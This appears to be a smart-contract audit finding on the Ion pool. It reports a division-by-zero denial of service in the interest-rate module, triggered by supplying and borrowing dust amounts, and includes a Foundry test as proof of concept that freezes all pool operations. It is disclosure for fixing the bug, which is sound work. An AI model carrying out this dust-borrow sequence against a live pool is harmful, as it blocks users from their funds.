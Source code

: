 **Severity**

**Impact:** High

**Likelihood:** Low

**Description**

The newly deployed Ion pool can be DoSed by supplying and borrowing a dust amount of underlying. When `accrueInterest` is called the Ion pool requests a `borrowRate` value from the `InterestRate` contract:

```solidity
        (uint256 borrowRate, uint256 reserveFactor) =
            $.interestRateModule.calculateInterestRate(ilkIndex, totalDebt, totalEthSupply);
```

In the `calculateInterestRate` function, if the `distributionFactor` is non-zero and the ETH supply is relatively small, a division by zero can occur:

```solidity
    function calculateInterestRate(
        uint256 ilkIndex,
        uint256 totalIlkDebt,
        uint256 totalEthSupply
    )
        external
        view
        returns (uint256, uint256)
    {
        ---SNIP---
        if (distributionFactor == 0) {
            return (ilkData.minimumKinkRate, ilkData.reserveFactor.scaleUpToRay(4));
        }
        // [RAD] / [WAD] = [RAY]
        uint256 utilizationRate =
>>          totalEthSupply == 0 ? 0 : totalIlkDebt / (totalEthSupply.wadMulDown(distributionFactor.scaleUpToWad(4)));
```

This issue results in all pool operations being blocked, as `accrueInterest` is called in all of them. The only way to return the pool to a normal state is to swap the interest rate module to one with a zero `distributionFactor`.

Coded POC for `IonPool.t.sol` where the attacker blocks the pool in two separate transactions. (lender's `supply` call was removed from `setUp`):

```solidity
    function test_DoS() public {
        uint256 collateralDepositAmount = 10e18;
        uint256 normalizedBorrowAmount = 1;

        vm.startPrank(lender1);
        underlying.approve(address(ionPool), type(uint256).max);
        ionPool.supply(lender1, 2, new bytes32[](0));
        vm.stopPrank();

        vm.startPrank(borrower1);
        ionPool.depositCollateral(0, borrower1, borrower1, collateralDepositAmount, new bytes32[](0));
        ionPool.borrow(0, borrower1, borrower1, normalizedBorrowAmount, new bytes32[](0));

        vm.warp(block.timestamp + 1);
        vm.expectRevert();
        ionPool.accrueInterest();
    }
```
